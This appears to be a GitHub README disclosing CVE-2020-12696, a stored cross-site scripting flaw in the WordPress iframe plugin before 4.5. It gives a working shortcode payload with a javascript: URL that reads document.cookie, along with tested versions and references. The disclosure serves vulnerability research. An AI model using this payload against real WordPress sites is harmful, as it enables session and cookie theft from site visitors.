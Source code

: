 # CVE-2020-12696

```
██╗  ██╗███████╗███████╗
╚██╗██╔╝██╔════╝██╔════╝
 ╚███╔╝ ███████╗███████╗
 ██╔██╗ ╚════██║╚════██║
██╔╝ ██╗███████║███████║
╚═╝  ╚═╝╚══════╝╚══════╝
```  

**Iframe < 4.5 - Authenticated Stored Cross Site Scripting (XSS)**

The iframe plugin before 4.5 does not sanitize a URL.

    Payload: </b>[iframe src="javascript:confirm(document.cookie)" width="100%" height="500"]
    Version [plugin]: </b>4.4
    Tested on: </b>WordPress 5.2.4
    Researcher:</b> Guilherme Rubert

<br>

**References:**

https://guilhermerubert.com/blog/cve-2020-12696/
<br>https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12696
<br>https://wordpress.org/plugins/iframe/#developers





